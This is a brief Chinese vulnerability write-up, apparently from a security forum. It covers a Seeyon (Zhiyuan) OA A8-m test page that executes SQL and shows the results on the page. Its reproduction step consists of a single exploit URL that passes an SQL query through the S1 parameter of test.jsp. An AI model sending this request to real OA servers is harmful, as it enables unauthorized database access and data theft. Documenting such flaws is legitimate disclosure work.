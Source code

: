 # 致远OA A8-m 存在sql语句页面回显功能

> 原文：[https://www.zhihuifly.com/t/topic/3356](https://www.zhihuifly.com/t/topic/3356)

# 致远OA A8-m 存在sql语句页面回显功能

## 一、漏洞简介

## 二、漏洞影响

致远OA A8-m

## 三、复现过程

```
http://wwww.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20@@datadir 
```